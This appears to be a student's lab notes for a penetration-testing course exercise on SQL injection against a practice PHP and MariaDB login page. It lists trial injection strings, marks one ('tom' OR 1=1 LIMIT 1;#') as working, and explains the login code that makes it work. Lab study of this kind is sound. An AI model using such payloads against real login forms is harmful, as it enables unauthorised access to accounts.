



9.4.5.4

# 9.4.5.4
## 9.4.5.4.1. Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

Authenticate to the webappdb database as root.


Use the WHERE clause to select by id or by username


## 9.4.5.4.2. SQL inject the username field to bypass the login process.
Now try logging in without valid credentials
`tom'`


`1=1'`


`tom' or 1=1'#`


`tom or 1=1'`


`tom or 1=1'#`


`tom' or 1=1#`


`tom' or 1=1;#`


`tom' OR 1=1 LIMIT 1;#` THIS WORKS!


## 9.4.5.4.3. Why is the username displayed like it is in the web application once the authentication process is bypassed?

When a user is authenticated, the code calls header(admin.php). The header() function is a predefined PHP native function that allows us to control data sent to the client by the Web server before other output has been sent. In this case, it redirects to admin.php. There is a statement in admin.php that echoes "Welcome <user>"


## 9.4.5.4.4. Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?

Yes it is necessary to include "LIMIT 1" in this example because the source code file login.php because line 22 requires there to be exactly 1 result.
```plaintext
if( $result->num_rows == 1 ) {
                                        $_SESSION['user'] = $_POST['username'];
                                        header("Location:admin.php");
```


